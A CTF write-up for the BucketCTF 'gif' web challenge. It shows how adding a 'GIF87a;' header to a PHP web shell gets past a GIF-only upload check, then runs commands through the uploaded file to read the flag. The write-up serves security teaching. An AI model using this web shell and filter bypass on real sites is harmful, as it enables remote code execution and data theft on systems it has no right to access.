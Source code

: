 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: false

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I attempted to upload a basic PHP payload, but the server only permitted GIF files. So, I modified the payload by adding a GIF header, `GIF87a;` and it worked.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

Our file is stored in ***/uploads*** so we can now execute commands on the machine and access the flag: `/uploads/payload.php/?cmd=cat /flag.txt`

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;
